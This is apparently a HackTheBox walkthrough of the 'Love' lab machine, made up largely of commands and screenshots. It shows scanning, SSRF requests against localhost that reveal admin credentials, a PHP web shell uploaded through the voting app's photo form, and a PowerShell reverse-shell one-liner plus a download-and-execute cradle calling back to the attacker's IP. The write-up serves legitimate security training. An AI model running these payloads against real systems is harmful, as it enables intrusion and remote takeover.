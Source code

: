 ### 09-Feb-24-Fri

[Love](https://app.hackthebox.com/machines/Love)

![image](https://github.com/r1skkam/HackTheBox-Walkthroughs/assets/58542375/0389d886-6713-4860-9ce3-9b4247972d27)

*Credits - https://www.youtube.com/@ippsec https://youtu.be/V_7ubkfnPK4*

```
sudo nmap -p- --min-rate 10000 -v -oA love-allports 10.129.207.242
```

![image](https://github.com/r1skkam/HackTheBox-Walkthroughs/assets/58542375/075752d7-4e81-42fa-9907-82baaa8168e2)

![image](https://github.com/r1skkam/HackTheBox-Walkthroughs/assets/58542375/7ed88496-e193-4825-9d23-c4fc4f288af9)

```
echo "10.129.207.242 www.love.htb staging.love.htb" |sudo tee -a /etc/hosts
```

![image](https://github.com/r1skkam/HackTheBox-Walkthroughs/assets/58542375/9940c422-33dd-4565-8b40-0a1260598ce7)

http://www.love.htb/

![image](https://github.com/r1skkam/HackTheBox-Walkthroughs/assets/58542375/040f4e17-35cc-4df9-8606-bd32d2b5a2ae)

http://staging.love.htb/

![image](https://github.com/r1skkam/HackTheBox-Walkthroughs/assets/58542375/a5c6346c-2d0c-4012-a4c0-7a8dc4656f42)

http://staging.love.htb/beta.php

![image](https://github.com/r1skkam/HackTheBox-Walkthroughs/assets/58542375/db3c87a8-82f7-442f-82f2-416574f07381)

![image](https://github.com/r1skkam/HackTheBox-Walkthroughs/assets/58542375/c3159106-8042-481d-9517-df387a6ee63c)

![image](https://github.com/r1skkam/HackTheBox-Walkthroughs/assets/58542375/3222eb55-9e79-452d-a356-2fd0d20eb3f7)

![image](https://github.com/r1skkam/HackTheBox-Walkthroughs/assets/58542375/910c7c22-f9a5-40a2-a560-f7b0faf58734)

```
file:///etc/passwd
```

```
127.0.0.1/etc/passwd
```

![image](https://github.com/r1skkam/HackTheBox-Walkthroughs/assets/58542375/4f12e8ea-9c6b-45be-9553-5483d7206b65)

```
http://127.0.0.1
```

![image](https://github.com/r1skkam/HackTheBox-Walkthroughs/assets/58542375/4ca88ffa-d065-4f9c-9817-3c9772640bdf)

```
http://127.0.0.1:5000
```

![image](https://github.com/r1skkam/HackTheBox-Walkthroughs/assets/58542375/60fc7774-ea0a-4082-8c01-f523c8155e9c)

```
Vote Admin Creds admin: @LoveIsInTheAir!!!!
```

```
admin
```

```
@LoveIsInTheAir!!!!
```

[Voting System 1.0 - File Upload RCE (Authenticated Remote Code Execution) - PHP webapps Exploit](https://www.exploit-db.com/exploits/49445)

```
searchsploit -m 49445
```

![image](https://github.com/r1skkam/HackTheBox-Walkthroughs/assets/58542375/b26d2cb0-02ee-4951-9269-d4fb426d6812)

![image](https://github.com/r1skkam/HackTheBox-Walkthroughs/assets/58542375/4b23a210-b096-49ed-98bf-b687c60dd886)

![image](https://github.com/r1skkam/HackTheBox-Walkthroughs/assets/58542375/b65610dd-31d3-4e2c-bde8-5e9bcb83e594)

http://www.love.htb/admin/

http://www.love.htb/admin/home.php

![image](https://github.com/r1skkam/HackTheBox-Walkthroughs/assets/58542375/7580ea29-e333-4f88-883c-b23f0566b1e8)

http://www.love.htb/admin/voters.php

*Credits --> https://medium.com/@joemcfarland/hack-the-box-love-writeup-d58982ffa4ec*

```
------WebKitFormBoundaryM93O7d6XpEp6S0dP
Content-Disposition: form-data; name="photo"; filename="haxez.php"
Content-Type: image/jpeg
<?php system($_REQUEST["cmd"]); ?>
```

![image](https://github.com/r1skkam/HackTheBox-Walkthroughs/assets/58542375/210c2d49-945b-4dd5-b732-766862cd2b5d)

![image](https://github.com/r1skkam/HackTheBox-Walkthroughs/assets/58542375/b6f74463-7788-483a-a083-3f72f1dde6b8)

![image](https://github.com/r1skkam/HackTheBox-Walkthroughs/assets/58542375/b4f82c71-8222-46f3-8230-ee7b017c1b4e)

GET /images/haxez.php

![image](https://github.com/r1skkam/HackTheBox-Walkthroughs/assets/58542375/5c8c2b98-ba08-4d9e-b68e-d97147f5794c)

http://www.love.htb/images/haxez.php

http://www.love.htb/images/haxez.php?cmd=whoami

![image](https://github.com/r1skkam/HackTheBox-Walkthroughs/assets/58542375/2562d888-0043-4042-9499-b3a03de1b9d9)

```
love\phoebe
```

view-source:http://www.love.htb/images/haxez.php?cmd=dir

```
------WebKitFormBoundaryM93O7d6XpEp6S0dP
Content-Disposition: form-data; name="photo"; filename="haxez.php"
Content-Type: image/jpeg
 Volume in drive C has no label.
 Volume Serial Number is 56DE-BA30

 Directory of C:\xampp\htdocs\omrs\images

02/09/2024  09:42 PM    <DIR>          .
02/09/2024  09:42 PM    <DIR>          ..
05/18/2018  07:10 AM             4,240 facebook-profile-image.jpeg
02/09/2024  09:42 PM               167 haxez.php
04/12/2021  02:53 PM                 0 index.html.txt
01/26/2021  11:08 PM               844 index.jpeg
08/24/2017  03:00 AM            26,644 profile.jpg
               5 File(s)         31,895 bytes
               2 Dir(s)   4,133,908,480 bytes free
```

![image](https://github.com/r1skkam/HackTheBox-Walkthroughs/assets/58542375/bafb2c0e-72fd-4087-aba3-06df2516bb07)

view-source:http://www.love.htb/images/haxez.php?cmd=dir%20C:\Users\phoebe\Desktop

![image](https://github.com/r1skkam/HackTheBox-Walkthroughs/assets/58542375/d6cee341-55d9-418f-8ed4-1c88268339a9)

view-source:http://www.love.htb/images/haxez.php?cmd=type%20C:\Users\phoebe\Desktop\user.txt

```
7ae38e758d2376ef611d1e7a730b2d21
```

![image](https://github.com/r1skkam/HackTheBox-Walkthroughs/assets/58542375/ca9e7228-0129-4641-b8de-e55fdbcb32bf)

```
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.16.20',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```

https://raw.githubusercontent.com/samratashok/nishang/master/Shells/Invoke-PowerShellTcpOneLine.ps1

```
powershell "IEX(New-Object Net.WebClient).downloadString('http://10.10.16.20/hax.ps1')"
```

http://www.love.htb/images/haxez.php?cmd=powershell "IEX(New-Object Net.WebClient).downloadString('http://10.10.16.20/hax.ps1')"

![image](https://github.com/r1skkam/HackTheBox-Walkthroughs/assets/58542375/bd227268-13ae-4642-abff-ca0b2f2223e6)

![image](https://github.com/r1skkam/HackTheBox-Walkthroughs/assets/58542375/1ec3e109-917f-4518-9f71-ef2a75a49ae3)

